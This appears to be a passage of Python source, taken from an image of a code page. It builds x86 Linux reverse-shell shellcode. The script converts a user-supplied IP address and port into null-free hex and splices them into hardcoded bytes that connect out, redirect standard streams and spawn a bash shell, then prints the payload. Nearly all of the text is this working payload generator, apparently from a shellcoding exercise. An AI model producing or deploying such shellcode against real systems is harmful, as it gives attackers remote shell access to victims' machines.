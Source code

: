 ``` python
    sys.exit()
else:
    if int(sys.argv[1]) <= 256:
        print("[-] Port needs to be greater than 256 to guarantee sockaddr struct size is accurate and avoid null bytes.\n")
        print("If you require a lower port, consider changing the instructions in connect from:")
        print("\tpush 0x0101017f\n\tpush word 0x5C11\n\tpush word bx\n")
        print("to:")
        print("\txor ecx, ecx\n\tpush 0x0101017f\n\tsub esp, 2  ; stack alignment\n\tmov byte [esp], cl  ; null\n\tmov byte [esp], 0x65  ; port 100\n\tpush word 0x2\n")
        sys.exit()

    lport = int(sys.argv[1])
    ip = sys.argv[2]

def ip2Hex(ip):
        ipHex = ""
        for b in ip.split('.'):
                ipHex += "\\x%02x" % (int(b))
        return ipHex

def setPort(lport):
    p = hex(lport)[2:]
    psize = len(str(p))
    if psize == 1 or psize == 3:
        p = "0" + p

    psize = len(str(p))

    if psize == 2:
        fport = '\\x' + str(p)[0:2]
    else:
        fport = '\\x' + str(p)[0:2] + '\\x' + str(p)[2:4]

    if "\\x00" in fport:
        print("[!] Port conversion contains a null byte, I'm lazy, so choose another port maybe?")
        sys.exit()
    else:
        return fport

port = setPort(lport)
ipHex = ip2Hex(ip)

print("[+] Hex port: " + port)
print("[+] Hex ip: " + ipHex)

shellcode = ""
shellcode += "\\x31\\xc0\\x31\\xdb\\xb0\\x66\\x53\\x6a\\x01\\x6a"
shellcode += "\\x02\\x89\\xe1\\xfe\\xc3\\xcd\\x80\\x89\\xc7\\xb0"
shellcode += "\\x66\\x43\\x68"
shellcode += ipHex # IP
shellcode += "\\x66\\x68"
shellcode += port # PORT
shellcode += "\\x66\\x53\\x89\\xe6\\x6a\\x10\\x56\\x57\\x89"
shellcode += "\\xe1\\x43\\xcd\\x80\\x87\\xdf\\x31\\xc9\\xb1\\x02"
shellcode += "\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50"
shellcode += "\\x68\\x62\\x61\\x73\\x68\\x68\\x62\\x69\\x6e\\x2f"
shellcode += "\\x68\\x2f\\x2f\\x2f\\x2f\\x89\\xe3\\x50\\x89\\xe2"
shellcode += "\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

print("[+] Shellcode: \n" + shellcode)
```

